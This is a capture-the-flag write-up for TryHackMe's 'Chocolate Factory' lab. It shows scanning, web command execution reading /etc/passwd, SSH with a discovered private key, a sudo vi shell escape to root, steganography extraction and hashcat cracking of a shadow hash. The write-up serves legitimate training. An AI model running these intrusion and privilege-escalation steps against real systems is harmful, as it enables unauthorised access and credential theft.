







# Chocolate Factory
**Date:** February 16th 2022

**Author:** j.info

**Link:** [**Chocolate Factory**](https://tryhackme.com/room/chocolatefactory) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- Enter the key you found!
- What is Charlie's password?
- Enter the user flag
- Enter the root flag

<br>

## Initial Enumeration

<br>

### Nmap Scan

`sudo nmap -sV -sC -A -T4 10.10.103.173`

```
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
113/tcp open  ident?
| fingerprint-strings: 
|   GenericLines, GetRequest, Help, NULL: 
|_    http://localhost/key_rev_key <- You will find the key here!!!
```

```
And then there were several other ports that all have a message saying look somewhere else:

100/tcp open  newacct?
106/tcp open  pop3pw?
109/tcp open  pop2?
110/tcp open  pop3?
111/tcp open  rpcbind?
119/tcp open  nntp?
125/tcp open  locus-map?
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.103.173 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 1466]
/home.php             (Status: 200) [Size: 569] 
/validate.php         (Status: 200) [Size: 93]  
/server-status        (Status: 403) [Size: 278]
```

<br>

## Website Digging

Visiting the main page:

<br>



<br>

The **robots.txt** file does not exist, and the **page source** also doesn't show anything interesting.

I take a look at **/home.php** and find something that says you can execute commands:

<br>



<br>

I run a `cat /etc/passwd` to test it out, and it works.

<br>



<br>

It's quite hard to see on that background so using **view source** will make it much easier to read:

<br>



<br>

**TIP:** To make things even easier fire up **burp** and capture a request of you entering a command, and then send that to repeater and enumerate from there.

<br>

## System Enumeration

<br>

Still on the website I take a look at the **/etc/passwd** file to see the users on the system and there are only 2:

```
root:x:0:0:root:/root:/bin/bash
charlie:x:1000:1000:localhost:/home/charley:/bin/bash
```

I execute a `ls -al /home/charlie` command and it gives me:

```
total 40
drwxr-xr-x 5 charlie charley 4096 Oct  7  2020 .
drwxr-xr-x 3 root    root    4096 Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3771 Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4096 Sep  1  2020 .cache
drwx------ 3 charlie charley 4096 Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4096 Sep 29  2020 .local
-rw-r--r-- 1 charlie charley  807 Apr  4  2018 .profile
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
-rw-r----- 1 charlie charley   39 Oct  6  2020 user.txt
```

We don't have read permissions on the **user.txt** flag yet so we can't view that. I take a look at the **teleport** file and it's a **private RSA key**! I save it to my system and try to **ssh** over with it.

<br>

## System Access

<br>

`ssh -i id_rsa charlie@10.10.103.173`

```
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-115-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Feb 16 21:40:15 UTC 2022

  System load:  0.0               Processes:           1205
  Usage of /:   44.9% of 8.79GB   Users logged in:     0
  Memory usage: 61%               IP address for eth0: 10.10.103.173
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Oct  7 16:10:44 2020 from 10.0.2.5
Could not chdir to home directory /home/charley: No such file or directory
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

charlie@chocolate-factory:/$
```

Now that we have a foothold on the system let's do some further enumeration.

<br>

## Additional Enumeration

<br>

In his home directory I go pick up the user flag we saw earlier on the website.

I try the standard `sudo -l` and get:

```
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```

This is definitely going to be a quick one!

<br>

## Root

<br>

We can break out of a sudo run vi and escalate to root with the following command:

`sudo vi -c ':!/bin/sh' /dev/null`

```
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null

# whoami
root
```

I head over to the **/root** directory and... wait... what? Maybe this won't be so quick. Instead of the standard **root.txt** file there is a **root.py** file.

When I try and run it I get an error message about **pyfiglet** not being installed. I search the system:

`find / -name pyfig*'

```
/usr/local/lib/python2.7/dist-packages/pyfiglet
```

Looking at the source code for **root.py** shows that it's written in **Python 3** not 2.

```
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```

I try to **pip install pyfiglet** and it says it's already installed, and **pip3** does not exist. So I end up copying the existing library to the **python 3.6** directory:

`cp -r pyfig* ../../python3.6/dist-packages`

Now when I try and run the **root.py** program it asks for a key:

```
Enter the key: 
```

Hitting enter with no key entered let's us know that it needs to be:

```
ValueError: Fernet key must be 32 url-safe base64-encoded bytes.
```

I look back at my nmap scan and see that **port 113** mentioned something about finding a key there. Let's look around some more.

<br>

## But Wait, there's More!

<br>

I haven't looked at the **FTP** site yet, and it did have anonymous access open. Logging in there is only a single image file called **gum_room.jpg**.

Downloading it onto my system I run it through **stegseek**:

`stegseek gum_room.jpg`

And it extracts a hidden file originally called **b64.txt**. Taking a look shows us a long string of base64. I decode that:

`base64 -d gum_room.jpg.out`

```
charlie:$6$<REDACTED>:18535:0:99999:7:::
```

It's a copy of the **/etc/shadow** file with the password hash for charlie.

I modify the file so that it only includes the hash and run it through **hashcat**. It's a **sha512crypt** hash so I use **-m 1800**:

`hashcat -m 1800 -s 3 -O -D 2 hash.txt rockyou.txts`

**TIP:** Do this on your host system and not inside of a virtual machine it greatly speeds things up.

```
$6$<REDACTED>:<REDACTED>
```

That gives us the answer to the **What is Charlie's password?** objective.

<br>

## Key

<br>

If you telnet over to port **113** on the system it tells you (and this also was displayed in the **nmap** scan earlier):

`telnet 10.10.103.173 113`

```
Trying 10.10.103.173...
Connected to 10.10.103.173.
Escape character is '^]'.
http://localhost/key_rev_key <- You will find the key here!!!
```

Navigating to that URL let's you download the **key_rev_key** file onto your system. Taking a look at it:

`file key_rev_key`

```
key_rev_key: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8273c8c59735121c0a12747aee7ecac1aabaf1f0, not stripped
```

I didn't particularly feel like running a random executable file on my system even though it's likely safe. Instead I run a `strings* on it and get:

```
Enter your name: 
laksdhfas
 congratulations you have found the key:   
<REDACTED>
```

So you can get the key without running the file on your system.

Now that we have that, I head back over to the target system and see if I can feed the key to the root.py program for our final objective.

```
# python3 root.py
Enter the key:  <REDACTED>
Traceback (most recent call last):
  File "root.py", line 4, in <module>
    f=Fernet(key)
  File "/usr/lib/python3/dist-packages/cryptography/fernet.py", line 37, in __init__
    "Fernet key must be 32 url-safe base64-encoded bytes."
ValueError: Fernet key must be 32 url-safe base64-encoded bytes.
```

No luck, the program errors out and I was careful to copy and paste the key. I try and run it on my home system as well and it also errors out. What's strange is that pasting the exact same key into the **TryHackMe** website works fine and it accepts it as the correct answer. Oh well. Let's find a work around.

I do a quick online search for **fernet decrypt** and run across [**this decoder**](https://asecuritysite.com/encryption/ferdecode). I manually type in the token (which is the encrypted_mess variable in the python program) and then add the key and it decodes it no problem giving us the answer to the final objective: **Enter the root flag**.

<br>



<br>

With that we're done with this CTF!

<br>



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **burp suite** repeater to enumerate a website vulnerable to **RCE**
- Turning that **RCE** into system access
- Breaking out of a **sudo run vi** to escalate privileges to root
- Using **steganography** to extract hidden information from an image file
- Cracking a password hash with **hashcat**
- Using **strings** to examine binary files
- Using an online **fernet decoder** to decrypt text

<br>

Many thanks to these people for creating this CTF:
- [**0x9747**](https://tryhackme.com/p/0x9747)
- [**saharshtapi**](https://tryhackme.com/p/saharshtapi)
- [**AndyInfoSec**](https://tryhackme.com/p/AndyInfoSec)

<br>

And thanks to **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)